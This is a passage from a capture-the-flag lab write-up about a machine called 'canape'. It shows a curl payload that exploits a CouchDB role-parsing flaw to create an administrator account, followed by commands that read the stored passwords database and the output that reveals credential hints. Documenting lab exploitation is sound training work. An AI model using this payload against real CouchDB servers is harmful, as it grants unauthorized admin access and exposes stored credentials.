 However, this exploit does not seem to work on the machine. Since this is a DB and can interact with it, perhaps it has passwords within it. The references within the exploit have a link to this:

{% embed url="https://justi.cz/security/2017/11/14/couchdb-rce-npm.html" %}

The above uses `curl` to create a new administrator user on the machine.&#x20;

{% code overflow="wrap" %}
```bash
curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:oops' --data-binary '{"type": "user", "name": "oops", "roles": ["_admin"], "roles": [], "password": "password"}'
```
{% endcode %}

Afterwards, we can read the passwords:

```
www-data@canape:/$ curl 127.0.0.1:5984/passwords/_all_docs --user 'oops:password'
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```

The one on the last row contains a hint about the user's password:

{% code overflow="wrap" %}
```
www-data@canape:/$ curl 127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438004738 --user 'oops:password'
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
```
{% endcode %}

With this, we can `ssh` in as `homer` using the password from the other fields:

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>
